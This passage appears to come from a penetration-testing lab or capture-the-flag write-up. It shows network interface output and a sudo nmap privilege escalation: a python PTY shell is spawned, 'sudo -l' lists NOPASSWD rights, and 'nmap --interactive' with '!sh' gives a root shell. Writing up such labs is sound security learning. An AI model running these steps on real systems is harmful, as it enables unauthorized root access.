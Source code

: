 ```bash
          RX packets:1452131 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1191514 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:160893887 (153.4 MiB)  TX bytes:297989614 (284.1 MiB)
          Interrupt:59 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:12268 errors:0 dropped:0 overruns:0 frame:0
          TX packets:12268 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1112432 (1.0 MiB)  TX bytes:1112432 (1.0 MiB)
```

![Pasted image 20210427163926.png](../../zzz_res/attachments/Pasted_image_20210427163926.png)

## sudo nmap privilege escalation (#2)

A PTY shell was spawned and sudo permission over nmap was abused in order to spawn a root shell:

PoC: [nmap | GTFOBins](https://gtfobins.github.io/gtfobins/nmap/)

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")';
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
